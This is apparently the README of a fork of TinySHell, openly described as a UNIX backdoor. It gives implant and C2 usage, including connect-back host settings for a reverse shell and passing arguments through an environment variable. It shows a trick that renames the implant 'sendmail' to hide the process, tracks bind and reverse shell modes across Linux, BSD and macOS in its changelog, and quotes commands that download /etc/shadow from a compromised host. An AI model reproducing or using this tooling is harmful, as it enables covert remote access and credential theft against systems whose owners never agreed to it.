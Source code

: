 This is an updated fork of creaktives fork of TinySHell, an open source UNIX backdoor.

creaktive added commandline argument parsing which allows you to dynamically set the connectback host, port, and shared secret value at runtime. 

Like so:
```
# implant side
Usage: ./tshd [ -c [ connect_back_host ] ] [ -s secret ] [ -p port ]

# c2 side
Usage: ./tsh [ -s secret ] [ -p port ] [command]

   <hostname|cb>
   <hostname|cb> get <source-file> <dest-dir>
   <hostname|cb> put <source-file> <dest-dir>
```

I've since added support for passing those arguments through an environmental variable by shamelessly copy-pasting Skyper from The Hackers Choice's implementation of env2argv from the THC fork of dsniff. 

So now you can do the following on the implant side:
```
ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" ./tshd
```

Which is kinda cool, but it gets neater - you can hide the process somewhat with old school trickery like the following - making it look like a sendmail process as an example:
```
mv tshd sendmail
PATH=.:$PATH ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" sendmail 
```

Further changes will follow as testing proceeds and I refactor small bits, try out some bullshit, etc. 

For the planned experiments/etc, see the Issues tab where I've created an issue for each "idea" to experiment with. 

I can't guarentee any timeline on how fast anything will get done, or in what order, it really depends on free time, effort, etc. 

## current notes:
11-04-2024: tested in bind shell mode, working on Ubuntu and FreeBSD targets. Reverse connect mode seems buggy, unclear if network gremlins or other. Build on OpenBSD fails. Plan going forward is to fix the reverse connect mode, then fix the OpenBSD build-time issues, then fix the OpenBSD run-time issues.  
12-04-2024: Figured out that the issue with reverse-connection mode was an extra : in the getopt string after a lot of buggering around. Reverse and bind modes now working perfectly on FreeBSD and Ubuntu. Further stress testing needed though.  
12-04-2024: currently, the tsh client sends `exec bash --login` as the default command to pop a shell - `tsh_runshell( server, "exec bash --login" ) );`, on some systems without bash this causes an error. So we should probably default to "sh" instead?  
12-04-2024: issuing a release at this point just as a snapshot of it "working" on Ubuntu/FreeBSD.  
13-04-2024: OpenBSD support has been provisionally fixed at this time, though you need to replace "gcc" with "egcc" in the Makefile currently.  
14-04-2024: Tested working with dietlibc on Ubuntu, x86_64 platform. Probably can optimise for size.  
16-04-2024: Working on ARM Debian  

## compatability/test notes
I'll update these as I figure out what is/is not working, etc.


| OS | Distribution | Version | Architecture | Bind Shell Client | Bind Shell Server | Reverse Shell Client | Reverse Shell Server | File Upload | File Download | Env2Args |
| :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: |    :---:      |         :---: |
| Linux   | Ubuntu |   23.10  | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |
| FreeBSD | FreeBSD | 14.0-RELEASE | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |
| OpenBSD | OpenBSD | 7.5 | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |
| Darwin | MacOS | 22.4.0 | ARM | YES | YES | YES | YES | UNK | UNK | YES |
| Linux | Debian | 12 | ARM | YES | YES | YES | YES | UNK | UNK | YES |




## Original readme below.
```

                 Tiny SHell - An open-source UNIX backdoor


    * Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.

```
